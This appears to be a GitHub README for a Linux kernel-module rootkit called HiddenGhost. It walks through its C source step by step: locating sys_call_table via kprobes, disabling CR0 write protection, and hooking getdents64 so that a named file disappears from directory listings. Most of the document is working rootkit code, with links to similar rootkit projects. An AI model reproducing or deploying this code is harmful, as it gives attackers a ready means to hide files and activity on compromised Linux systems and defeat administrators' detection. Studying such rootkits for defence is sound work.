 == HiddenGhost
 
Hidden Ghost *is an new solution for find system call table with support for 5.7x kernels +*. Hidden Ghost finds the syscall table via the ```kallsyms_lookup_name``` module with the ```<linux/kprobes.h>``` headder.

Before starting the explanation of how the rootkit works in depth I will explain the basics.

** Tested On:

[x] Debian 12 6.7amd

** What is Hooking:

Hooking is the act of redirecting/modifying a certain code stream, this redirect technique can be used for good and for bad, a big example of using this technique is mid function hooking This time I saw an example midFunction hook in the Unknown cheats forum that created a function ```jmp 0xE9``` at address ```pAddres``` I won't take much of your time explaining how it works and such because there are articles about it, I left two articles at the end of this readme, mine where I explain in depth about lkm and the one about MidFunction hook.

** And how does it hook the syscall?

* 1) Find the Syscalls Table:

- The ``find_syscall_table`` function uses the kprobes module to find the address of the kernel syscall table (sys_call_table).

```
unsigned long *find_syscall_table(void)
{
    typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
    kallsyms_lookup_name_t kallsyms_lookup_name;

    register_kprobe(&kp);
    kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
    unregister_kprobe(&kp);

    __syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
    return __syscall_table;
}
```

* 2) Unprotect Memory

- The ``unprotect_memory`` function disables write protection on the page containing the syscall table, allowing the rootkit to modify the syscall table.

```
static inline void unprotect_memory(void)
{
    write_cr0_forced(cr0 & ~0x00010000);
}
```

* 3) Replace the Original Function

- In ghost_init, the address of the original getdents64 syscall is saved and replaced with the address of the hook function (hook_getdents64).

```
static int __init ghost_init(void)
{
    __syscall_table = find_syscall_table();
    if (!__syscall_table) {
        printk(KERN_INFO "Error, syscall_table not found");
        return -1;
    }

    cr0 = read_cr0();
    orig_getdents64 = (void *)__syscall_table[MY_NR_getdents];
    unprotect_memory();
    __syscall_table[MY_NR_getdents] = (unsigned long)hook_getdents64;
    protect_memory();

    printk(KERN_INFO "Rootkit loaded: Syscall hooked\n");
    return 0;
}
```

* 4) Protect Memory

After replacement, write protection is restored.

```
static inline void protect_memory(void)
{
    write_cr0_forced(cr0);
}
```

* 5) Interception and Manipulation

- The hook function hook_getdents64 intercepts calls to getdents64, checks file names, and hides any file named file_to_hide. 

```
asmlinkage int hook_getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count) {
    int ret = orig_getdents64(fd, dirp, count);
    struct linux_dirent64 *d, *kd, *kdirent = NULL;
    unsigned long offset = 0;

    if (ret <= 0)
        return ret;

    kdirent = kzalloc(ret, GFP_KERNEL);
    if (kdirent == NULL)
        return ret;

    if (copy_from_user(kdirent, dirp, ret)) {
        kfree(kdirent);
        return ret;
    }

    while (offset < ret) {
        d = (struct linux_dirent64 *)((char *)kdirent + offset);
        if (strcmp(d->d_name, "file_to_hide") == 0) {
            memmove(d, (char *)d + d->d_reclen, ret - offset - d->d_reclen);
            ret -= d->d_reclen;
        } else {
            offset += d->d_reclen;
        }
    }

    copy_to_user(dirp, kdirent, ret);
    kfree(kdirent);
    return ret;
}
```

* 6) Unloading and Restoring

- When unloading the module, the original syscall is restored:

```
static void __exit ghost_exit(void)
{
    unprotect_memory();
    __syscall_table[MY_NR_getdents] = (unsigned long)orig_getdents64;
    protect_memory();

    printk(KERN_INFO "Rootkit unloaded: Syscall restored\n");
}
```

link of articles: 

https://github.com/Ch4r0nN/LKM-Exploration[LKM-Exploration Making drivers from basic to advanced]


https://www.unknowncheats.me/forum/c-and-c-/67884-mid-function-hook-deal.html[Unknown Cheats]

Links to the repositories I based on:

https://github.com/m0nad/Diamorphine[Diamorphine]

https://github.com/xcellerator/linux_kernel_hacking[Linux Kernel Hacking]
